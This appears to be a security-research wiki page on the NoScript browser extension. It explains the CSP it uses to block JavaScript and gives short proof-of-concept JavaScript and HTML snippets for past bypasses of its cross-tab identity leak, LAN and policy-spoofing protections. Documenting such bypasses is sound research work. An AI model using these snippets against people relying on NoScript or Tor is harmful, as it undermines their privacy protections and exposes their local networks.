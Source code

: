```yaml
---
title: NoScript
---
```


[NoScript](https://noscript.net/) is a security browser extension installed by default on the Tor Browser that reduces the attack surface of visited websites such as by per site disabling JavaScript and blocking requests to the local area network.
It also has cross-site protections such as checking the URL for reflected XSS and asking before opening cross-site popups to avoid timing attacks and other leaks via the opener (Firefox only).

Disabling JS works by setting the following [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP):
```
noscript-marker; script-src 'none'; object-src 'none'; media-src 'none'; font-src 'none'; script-src-elem 'none'; script-src-attr 'none'; worker-src 'none'
```
So, in order to bypass it you need to find somewhere the CSP is not enforced like [this](https://bugs.chromium.org/p/chromium/issues/detail?id=1291060) or a PDF.

# Cross-tab Identity Leak Protection
Due to a flaw in cutting tab ties it did not think tabs where related when there was still a window reference.
```js
async function bypassFirefox(url) {
let win = open('about:blank');
await new Promise(resolve => setTimeout(resolve, 100));
win.location.reload();
await new Promise(resolve => setTimeout(resolve, 100));
win.location = url;
return win;
}
```
And later… [commit]( https://github.com/hackademix/noscript/commit/c22eafc35bfcc379e9323cae67c924dfa1830684)
```js
let w = open();
w.eval('console.log("some attack")');
location = target;
```
And later… (Requires two user interactions)
```js
w1 = open();
w2 = w1.open();
w1.close();
w2.location = target;
```
Like [COOP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy) this does not affect timing attacks on the first navigation.

# LAN Protection
[Sandboxed content](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox) uses the origin of ‘null’ which bypassed the protection.
```js
let f = document.createElement('iframe');
f.srcdoc = '<img src="http://192.168.1.1/foo">';
f.sandbox = 'allow-scripts';
document.body.appendChild(f);
```
This was also expanded to [top-level documents](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/sandbox).

# Policy spoofing
document.baseURI was used to determine the policy for about: and javascript: URLs this could be set to any origin using the html base tag.  [commit](https://github.com/hackademix/noscript/commit/2a5c1f67a7ed490df1da0ecf50dcfcc74d830cf7)
```html
<base href="https://www.example.com/">
```
